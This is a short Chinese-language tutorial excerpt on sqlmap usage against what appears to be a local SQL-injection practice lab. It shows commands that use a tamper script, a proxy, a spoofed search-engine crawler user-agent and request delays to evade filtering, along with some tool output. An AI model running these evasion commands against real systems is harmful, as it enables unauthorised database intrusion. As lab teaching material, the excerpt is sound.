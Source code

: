 **自定义user-agent**
```bash
python sqlmap.py -u "http://10.1.1.120/Less-2/?id=1"  --tamper=rdog.py --proxy=http://10.1.1.2:8888 --user-agent="Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)"
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/2476579/1627377869786-598d2ceb-dcbc-482e-b4a6-97e8d6a99e24.png#clientId=ufe573d71-bd39-4&from=paste&height=251&id=u69c9d102&originHeight=501&originWidth=1606&originalType=binary&ratio=1&size=77366&status=done&style=none&taskId=u1a6b865d-013d-46c9-97f7-b7cd866cf48&width=803)

**延时注入**<br />--delay 时间（默认为秒）
```bash
C:\Users\admin\Desktop\security\software\sqlmapproject-sqlmap-7c41967>python sqlmap.py -u "http://10.1.1.120/Less-2/?id=1"  --tamper=rdog.py --proxy=http://10.1.1.2:8888 --delay 1
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.5.6.4#dev}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:28:14 /2021-07-27/

[17:28:16] [INFO] loading tamper module 'rdog'
```
